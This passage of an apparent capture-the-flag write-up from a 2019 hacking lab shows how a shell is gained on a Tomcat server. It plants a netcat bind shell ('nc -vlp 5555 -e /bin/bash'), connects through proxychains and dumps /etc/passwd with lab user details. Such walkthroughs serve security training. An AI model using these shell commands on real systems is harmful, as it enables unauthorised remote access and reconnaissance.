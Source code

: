```
	}
%>
```

![](/img/hacklab-esgi-2019/25.png)

YEAH ! 201 CREATED !

![](/img/hacklab-esgi-2019/26.png)

We are in !

Let's obtain a bind shell (reverse shell are particulary complicated when there is several proxys)

Payload : `nc -vlp 5555 -e /bin/bash`

![](/img/hacklab-esgi-2019/28.png)

Connect to it : `proxychains -q nc 10.0.0.2 5555`

![](/img/hacklab-esgi-2019/27.png)

# Step 8 : Bash history permission mistake

Let's check some classic files

```bash
tomcat@project-server:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
tomcat:x:1001:1001::/opt/tomcat:/bin/false
fdaigle:x:1000:1000:Frederic Daigle,6,03.32.53.60.97,03.32.53.60.97,CEO:/home/fdaigle:/bin/bash
dcloutier:x:1002:1002:Daniel Cloutier,3,01.13.79.95.54,01.13.79.95.54,Sysadmin and project manager:/home/dcloutier:/bin/bash
csouplet:x:1003:1003:Charlotte Souplet,2,03.02.69.97.28,03.02.69.97.28,Frontend developer:/home/csouplet:/bin/bash
trobin:x:1004:1004:Thibaud Robin,8,01.45.67.43.56,01.45.67.43.56,Trainee full stack developer:/home/trobin:/bin/bash


```